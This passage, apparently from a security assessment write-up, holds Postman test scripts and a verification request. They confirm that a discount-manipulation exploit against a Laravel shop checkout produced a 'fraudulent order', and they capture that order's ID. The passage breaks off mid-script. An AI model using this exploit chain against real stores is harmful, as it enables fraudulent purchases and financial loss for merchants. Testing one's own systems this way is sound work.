 **Test Script:**
```javascript
pm.test("🚨 FRAUDULENT ORDER COMPLETION", function () {
    console.log("=".repeat(50));
    console.log("🚨 ATTEMPTING FRAUDULENT ORDER");
    console.log("=".repeat(50));
    
    if (pm.response.code === 302) {
        const location = pm.response.headers.get('Location');
        
        if (location && location.includes('success')) {
            console.log("🚨 CRITICAL: FRAUDULENT ORDER COMPLETED SUCCESSFULLY!");
            console.log("🎯 Success page:", location);
            
            // Extract order number if possible
            const orderMatch = location.match(/order_number=([^&]+)/);
            if (orderMatch) {
                console.log("📋 Order number:", orderMatch[1]);
                pm.environment.set("FRAUDULENT_ORDER_ID", orderMatch[1]);
            }
            
            pm.environment.set("EXPLOIT_COMPLETED", "true");
            
        } else if (location && location.includes('error')) {
            console.log("❌ Order failed - redirected to error page");
        }
    } else if (pm.response.code === 200) {
        const html = pm.response.text();
        if (html.includes('error') || html.includes('failed')) {
            console.log("❌ Order processing failed");
        }
    }
});
```

## 📊 **EXPLOIT VERIFICATION & REPORTING**

### **Final Verification Request**
```http
GET {{BASE_URL}}/checkout/success?order_number={{FRAUDULENT_ORDER_ID}}
Cookie: laravel_session={{SESSION_COOKIE}}
```

**Test Script:**
```javascript
pm.test("Final exploit verification", function () {
    const vulnerabilityExploited = pm.environment.get("VULNERABILITY_EXPLOITED");
    const exploitCompleted = pm.environment.get("EXPLOIT_COMPLETED");
    
    console.log("\n" + "=".repeat(60));
    console.log("📊 FINAL SECURITY ASSESSMENT REPORT");
    console.log("=".repeat(60));
    
    if (vulnerabilityExploited === "true") {
        console.log("🚨 CRITICAL VULNERABILITY CONFIRMED");
        console.log("💰 Financial Impact: EXTREME");
        console.log("🎯 Attack Vector: Discount Manipulation");
        
        if (exploitCompleted === "true") {
            console.log("💥 FULL EXPLOIT CHAIN SUCCESSFUL");
            console.log("📋 Fraudulent order created with malicious discount");
        }
    } else {
        console.log("✅ Vulnerability not exploitable (GOOD)");
```